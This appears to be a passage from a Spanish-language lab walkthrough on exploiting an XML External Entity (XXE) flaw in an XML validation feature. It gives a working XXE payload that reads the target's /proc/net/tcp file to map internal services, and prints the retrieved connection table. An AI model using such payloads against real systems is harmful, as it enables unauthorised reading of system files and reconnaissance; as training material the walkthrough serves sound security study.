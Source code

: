 Haga clic en el botón Validar XML:

* La respuesta indica que el XML proporcionado es válido.

> Tenga en cuenta que el XML proporcionado también se refleja en la respuesta.

Paso 5: Identifique y explote la vulnerabilidad XXE.

Envíe el siguiente fragmento XML que contenga una entidad XML:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY desc "Test Description"> ]>
<parent>
  <child>
    <name>Test Name</name>
    <description>&desc;</description>
  </child>
</parent>
```

> Observe que la respuesta contiene la descripción especificada en la entidad XML.

> Tenga en cuenta que sabemos que existe una vulnerabilidad XXE; Aprovechémoslo para extraer información sobre los servicios internos que se ejecutan en la máquina de destino.

Utilice el siguiente fragmento XML para leer el contenido del archivo /proc/net/tcp:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY file SYSTEM "file:///proc/net/tcp">
]>

<data>&file;</data>
```

Información: El archivo /proc/net/tcp contiene información sobre las conexiones de red TCP actuales.

> ¡Fíjate que hemos recuperado el contenido del archivo!

Contenido del archivo /proc/net/tcp:

```
sl local_address rem_address st tx_queue rx_queue tr tm->when retrnsmt uid timeout inode
0: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000 0 0 74435656 1 0000000000000000 100 0 0 10 0
1: 0100007F:22B8 00000000:0000 0A 00000000:00000000 00:00000000 00000000 0 0 74418007 1 0000000000000000 100 0 0 10 0
2: 0B00007F:9599 00000000:0000 0A 00000000:00000000 00:00000000 00000000 65534 0 74430920 1 0000000000000000 100 0 0 10 0
3: 00000000:1F40 00000000:0000 0A 00000000:00000000 00:00000000 00000000 0 0 74434697 1 0000000000000000 100 0 0 10 0
4: 034CDCC0:1F40 024CDCC0:EB4C 06 00000000:00000000 03:0000176F 00000000 0 0 0 3 0000000000000000
5: 034CDCC0:1F40 024CDCC0:EB4E 01 00000000:00000000 00:00000000 00000000 0 0 74434828 1 0000000000000000 20 4 30 10 -1
```
